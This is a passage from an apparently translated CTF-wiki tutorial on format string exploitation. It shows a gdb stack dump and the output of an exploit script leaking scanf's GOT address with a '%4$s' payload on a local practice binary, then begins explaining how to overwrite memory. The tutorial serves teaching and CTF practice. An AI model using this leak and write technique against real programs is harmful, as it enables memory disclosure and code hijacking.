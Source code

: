 When running to the second `printf` function, you can see that the fourth parameter does point to the address of `scanf`.

```c++
 → 0xf7615670 <printf+0> call 0xf76ebb09 <__x86.get_pc_thunk.ax>
   ↳ 0xf76ebb09 <__x86.get_pc_thunk.ax+0> mov eax, DWORD PTR [esp]
      0xf76ebb0c <__x86.get_pc_thunk.ax+3> ret
      0xf76ebb0d <__x86.get_pc_thunk.dx+0> mov edx, DWORD PTR [esp]
      0xf76ebb10 <__x86.get_pc_thunk.dx+3> ret
───────────────────────────────────────────────────────────────────[ stack ]────
['0xffbbf8dc', 'l8']
8
0xffbbf8dc│+0x00: 0x080484ce → <main+99> add esp, 0x10 ← $esp
0xffbbf8e0│+0x04: 0xffbbf8f0 → 0x0804a014 → 0xf76280c0 → <__isoc99_scanf+0> push ebp
0xffbbf8e4│+0x08: 0xffbbf8f0 → 0x0804a014 → 0xf76280c0 → <__isoc99_scanf+0> push ebp
0xffbbf8e8│+0x0c: 0x00000c2
0xffbbf8ec│+0x10: 0xf765c6bb → <handle_intel+107> add esp, 0x10
0xffbbf8f0│+0x14: 0x0804a014 → 0xf76280c0 → <__isoc99_scanf+0> push ebp ← $eax
0xffbbf8f4│+0x18: "%4$s"
0xffbbf8f8│+0x1c: 0x00000000
```

At the same time, under the `terminal` we run, we do get the address of `scanf`.

```bash
➜ leakmemory git:(master) ✗ python exploit.py
[+] Starting local process './leakmemory': pid 65363
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory'
    Arch: i386-32-little
    RELRO: Partial RELRO
    Stack: No canary found
    NX: NX enabled
    PIE: No PIE
(0x8048000)
0x804a014
\x14\xa0\x0%4$s
[*] running in new terminal: /usr/bin/gdb -q "/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory" 65363
[+] Waiting for debugger: Done
0xf76280c0
[*] Switching to interactive mode
[*] Process './leakmemory' stopped with exit code 0 (pid 65363)
[*] Got EOF while reading in interactiv
```

However, it is not said that all offsets the integer multiples of the machine word length, so that we can directly obtain the corresponding parameters. Sometimes we need to fill the formatted string we enter so that the address of the address we want to print is located at the integer multiples of the machine word length. Generally speaking, it is similar to the following: `[padding][addr]`.

### Overwrite memory
The above shows how to use formatted strings to leak stack memory and arbitrary address memory. In fact, you can also modify the value of variables on the stack, or even modify the memory of any address variable. As long as the corresponding address of the variable is writable, we can use formatted strings to modify its corresponding value. Here we can think of the types in the formatted string:
